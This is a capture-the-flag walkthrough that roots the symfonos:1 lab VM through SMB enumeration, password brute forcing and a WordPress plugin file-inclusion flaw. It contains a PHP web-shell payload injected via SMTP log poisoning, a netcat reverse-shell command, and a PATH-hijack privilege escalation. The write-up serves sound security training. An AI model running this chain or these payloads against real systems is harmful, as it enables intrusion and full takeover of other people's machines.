


Find the device on the network with a port scan.
crazyeights@es-base:~$ nmap -PS 192.168.56.1-255
Nmap scan report for 192.168.56.132
Host is up (0.00019s latency).
Not shown: 995 closed ports
PORT STATE SERVICE
22/tcp open ssh
25/tcp open smtp
80/tcp open http
139/tcp open netbios-ssn
445/tcp open microsoft-ds
Find specific information about the running services, and check uncommon ports (stripped unecessary details)
crazyeights@es-base:~$ nmap -A -p- 192.168.56.132
Not shown: 65530 closed ports
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
25/tcp open smtp Postfix smtpd
80/tcp open http Apache httpd 2.4.25 ((Debian))
139/tcp open netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open netbios-ssn Samba smbd 4.5.16-Debian (workgroup: WORKGROUP)
Important Details: domain name - symfonos
I always check web first.
The index page:
crazyeights@es-base:~$ dirb http://192.168.56.132
Using exiftool, found the painting name:
crazyeights@es-base:~/Downloads$ exiftool image.jpg
File source: https://commons.wikimedia.org/wiki/File:Peter_Paul_Rubens_-_The_Fall_of_Phaeton_(National_Gallery_of_Art).jpg
null shares - shares that you can connect to with username '', and password ''
crazyeights@es-base:~$ smbclient -L \\symfonos -I 192.168.56.132 -N
Sharename Type Comment
--------- ---- -------
print$ Disk Printer Drivers
helios Disk Helios personal share
anonymous Disk
IPC$ IPC IPC Service (Samba 4.5.16-Debian)
SMB1 disabled -- no workgroup available
Two interesting shares:
crazyeights@es-base:~$ smbmap -H 192.168.56.132 -d symfonos
Disk Permissions Comment
---- ----------- -------
print$ NO ACCESS Printer Drivers
helios NO ACCESS Helios personal share
anonymous READ ONLY
IPC$ NO ACCESS IPC Service (Samba 4.5.16-Debian)
crazyeights@es-base:~$
crazyeights@es-base:~$ smbclient \\\\symfonos\\anonymous -I 192.168.56.132 -N
Try "help" to get a list of possible commands.
smb: \> ls
. D 0 Fri Jun 28 21:14:49 2019
.. D 0 Fri Jun 28 21:12:15 2019
attention.txt N 154 Fri Jun 28 21:14:49 2019
smb: \> get attention.txt
getting file \attention.txt of size 154 as attention.txt (18.8 KiloBytes/sec) (average 18.8 KiloBytes/sec)
The file attention contains the following message:
Can users please stop using passwords like 'epidioko', 'qwerty' and 'baseball'!
Next person I find using one of these passwords will be fired!
-Zeus
This must mean there are users with weak passwords.
Using enum4linux we find the user helios:
crazyeights@es-base:~$ enum4linux 192.168.56.132
S-1-5-21-3173842667-3005291855-38846888-1000 SYMFONOS\helios (Local User)
S-1-22-1-1000 Unix User\helios (Local User)
msf5 > search smb_login
Matching Modules
================
# Name Disclosure Date Rank Check Description
- ---- --------------- ---- ----- -----------
0 auxiliary/scanner/smb/smb_login normal No SMB Login Check Scanner
msf5 > use 0
msf5 auxiliary(scanner/smb/smb_login) > options
msf5 auxiliary(scanner/smb/smb_login) > set STOP_ON_SUCCESS true
STOP_ON_SUCCESS => true
msf5 auxiliary(scanner/smb/smb_login) > set USER_FILE symfonos_user.txt
USER_FILE => symfonos_user.txt
msf5 auxiliary(scanner/smb/smb_login) > set RHOSTS 192.168.56.132
RHOSTS => 192.168.56.132
msf5 auxiliary(scanner/smb/smb_login) > set SMBDomain symfonos
SMBDomain => symfonos
msf5 auxiliary(scanner/smb/smb_login) > set PASS_FILE lists/rockyou-40.txt
PASS_FILE => lists/rockyou-40.txt
msf5 auxiliary(scanner/smb/smb_login) > exploit
[SNIP]
[+] 192.168.56.132:445 - 192.168.56.132:445 - Success: 'symfonos\helios:qwerty'
[*] 192.168.56.132:445 - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
Probably could have just checked each of the passwords in the file attention.txt
crazyeights@es-base:~$ smbclient \\\\symfonos\\helios -I 192.168.56.132 -U 'helios'
Enter WORKGROUP\helios's password:
Try "help" to get a list of possible commands.
smb: \> ls
. D 0 Fri Jun 28 20:32:05 2019
.. D 0 Fri Jun 28 20:37:04 2019
research.txt A 432 Fri Jun 28 20:32:05 2019
todo.txt A 52 Fri Jun 28 20:32:05 2019
19994224 blocks of size 1024. 17295092 blocks available
smb: \> more todo.txt
getting file \todo.txt of size 52 as /tmp/smbmore.z3DDVD (2.2 KiloBytes/sec) (average 2.2 KiloBytes/sec)
smb: \> more research.txt
getting file \research.txt of size 432 as /tmp/smbmore.vlA0LD (20.1 KiloBytes/sec) (average 10.7 KiloBytes/sec)
Helios (also Helius) was the god of the Sun in Greek mythology. He was thought to ride a golden chariot which brought the Sun across the skies each day from the east (Ethiopia) to the west (Hesperides) while at night he did the return journey in leisurely fashion lounging in a golden cup. The god was famously the subject of the Colossus of Rhodes, the giant bronze statue considered one of the Seven Wonders of the Ancient World.
1. Binge watch Dexter
2. Dance
3. Work on /h3l105
Go the directory h3l105 in browser, you get a wordpress
192.168.56.132 symfonos.local
Use wpscan to enumerate users:
crazyeights@es-base:~$ wpscan --url http://symfonos.local/h3l105/ -e u
There is only 1 user:
[+] admin
| Found By: Author Posts - Author Pattern (Passive Detection)
| Confirmed By:
| Rss Generator (Passive Detection)
| Wp Json Api (Aggressive Detection)
| - http://symfonos.local/h3l105/index.php/wp-json/wp/v2/users/?per_page=100&page=1
| Author Id Brute Forcing - Author Pattern (Aggressive Detection)
| Login Error Messages (Aggressive Detection)
crazyeights@es-base:~$ wpscan --url http://symfonos.local/h3l105/ --passwords lists/rockyou-40.txt --usernames admin
crazyeights@es-base:~$ searchsploit wordpress mail
WordPress Plugin Mail Masta 1.0 - Local File Inclusion | php/webapps/40290.txt
WordPress Plugin Mail Masta 1.0 - SQL Injection | php/webapps/41438.txt
There are two exploits. Trying the LFI exploit:
http://symfonos.local/h3l105/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd
crazyeights@es-base:~$ telnet 192.168.56.132 25
Trying 192.168.56.132...
Connected to 192.168.56.132.
Escape character is '^]'.
220 symfonos.localdomain ESMTP Postfix (Debian/GNU)
HELO dummy
250 symfonos.localdomain
MAIL FROM: "dummy <?php echo shell_exec($_GET['cmd']);?>"
250 2.1.0 Ok
RCPT TO: helios
250 2.1.5 Ok
DATA
354 End data with <CR><LF>.<CR><LF>
data>
.
250 2.0.0 Ok: queued as 736B940698
If we open /var/mail/helios we can see the message:
Go helios's mail log:
http://symfonos.local/h3l105/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/var/mail/helios&cmd=id
We can now see the command results in the logs:
Now do the same with a reverse shell, using a nc reverse shell for simplicity:
nc -e /bin/sh 192.168.56.1 1234
Start the listener:
nc -lvp 1234
Go to the url with the cmd param equal to the reverse shell:
http://symfonos.local/h3l105/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/var/mail/helios&cmd=nc -e /bin/sh 192.168.56.1 1234
We now have access as the user helios:
id
uid=1000(helios) gid=1000(helios) groups=1000(helios),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev)
Looked for user flag found none.
Find programs helios can run as root:
find / -perm /4000 2>/dev/null
/usr/lib/eject/dmcrypt-get-device
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/bin/passwd
/usr/bin/gpasswd
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/chfn
/opt/statuscheck
/bin/mount
/bin/umount
/bin/su
/bin/ping
The obvious standout is statuscheck
cd /opt
strings statuscheck
/lib64/ld-linux-x86-64.so.2
libc.so.6
system
__cxa_finalize
__libc_start_main
_ITM_deregisterTMCloneTable
__gmon_start__
_Jv_RegisterClasses
_ITM_registerTMCloneTable
GLIBC_2.2.5
curl -I H
http://lH
ocalhostH
[SNIP]
./statuscheck
HTTP/1.1 200 OK
Date: Fri, 01 Jan 2021 16:13:37 GMT
Server: Apache/2.4.25 (Debian)
Last-Modified: Sat, 29 Jun 2019 00:38:05 GMT
ETag: "148-58c6b9bb3bc5b"
Accept-Ranges: bytes
Content-Length: 328
Vary: Accept-Encoding
Content-Type: text/html
cd /tmp
echo "/bin/sh" > curl
chmod a+x curl
export PATH=/tmp:$PATH
When we run statuscheck now it runs our curl script instead of actual curl.
/opt/statuscheck
id
uid=1000(helios) gid=1000(helios) euid=0(root) groups=1000(helios),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev)
cd /root
ls
proof.txt
cat proof.txt
Congrats on rooting symfonos:1!
[SNIPPED]
FIN. 🥳